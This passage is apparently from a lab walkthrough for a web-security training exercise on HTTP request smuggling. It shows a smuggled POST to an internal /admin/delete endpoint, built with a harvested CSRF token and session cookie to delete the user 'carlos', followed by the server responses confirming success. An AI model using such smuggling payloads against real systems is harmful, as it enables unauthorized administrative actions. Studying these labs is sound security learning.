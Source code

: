 ```
<html>
    <head>
    ...
    ...
    <form style='margin-top: 1em' class='login-form' action='/admin/delete' method='POST'>
                            <input required type="hidden" name="csrf" value="zi9TIKrlUGeQ38CAuM197KLRHyohbgSg">
                            <label>Username</label>
                            <input required type='text' name='username'>
                            <button class='button' type='submit'>Delete user</button>
                        </form>
```
so it seeme our form use POST method and it require CSRF field.

note that when deleting the original session, the CSRF value of the form keeps changing every time you submit, while it stays the same value if you keep the session cookie... i am not sure if this will be important so: - noted

4. lets change our smuggled payload to POST, use the /admin/delete path,  calibrate the CL to include the CSRF (taken from the form) and the username to be deleted:

```
POST /admin/delete HTTP/1.1
Host: 192.168.0.1
Cookie: _lab=45%7cMCsCFHGopX02kALZTXNwpcgO6gj6BiAUAhMZPJSZh%2f16OPjKhQkCbw%2bapG8FYROs6DJu669XAnYH6gLFugq5zxU5EuOv8O%2fYDnUmA1HwEQq7bC5IScyo2kVxSwxvdKkYWJgvEFk3GfgTbjocb8F2h%2fVSAbFaGcgjgRHYYaCTJR7lwg%3d%3d; session=ZW5QknB5pD7Iy2LgDqxjfctfRqawb06I
Content-Length: 53

csrf=zi9TIKrlUGeQ38CAuM197KLRHyohbgSg&username=carlos
```

**final paylod:**
```
POST /login HTTP/1.1
Host: 0a22006403f519bfc0ee6fef00d90004.web-security-academy.net
Cookie: _lab=45%7cMCsCFHGopX02kALZTXNwpcgO6gj6BiAUAhMZPJSZh%2f16OPjKhQkCbw%2bapG8FYROs6DJu669XAnYH6gLFugq5zxU5EuOv8O%2fYDnUmA1HwEQq7bC5IScyo2kVxSwxvdKkYWJgvEFk3GfgTbjocb8F2h%2fVSAbFaGcgjgRHYYaCTJR7lwg%3d%3d; session=ZW5QknB5pD7Iy2LgDqxjfctfRqawb06I
Content-Length: 0

POST /admin/delete HTTP/1.1
Host: 192.168.0.1
Cookie: _lab=45%7cMCsCFHGopX02kALZTXNwpcgO6gj6BiAUAhMZPJSZh%2f16OPjKhQkCbw%2bapG8FYROs6DJu669XAnYH6gLFugq5zxU5EuOv8O%2fYDnUmA1HwEQq7bC5IScyo2kVxSwxvdKkYWJgvEFk3GfgTbjocb8F2h%2fVSAbFaGcgjgRHYYaCTJR7lwg%3d%3d; session=ZW5QknB5pD7Iy2LgDqxjfctfRqawb06I
Content-Length: 53

csrf=zi9TIKrlUGeQ38CAuM197KLRHyohbgSg&username=carlos
```
response 302 to our payload (and orange bar of success!):
```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Keep-Alive: timeout=10
Content-Length: 26

"Missing parameter 'csrf'"HTTP/1.1 302 Found
Location: /
Keep-Alive: timeout=10
Content-Length: 0
```
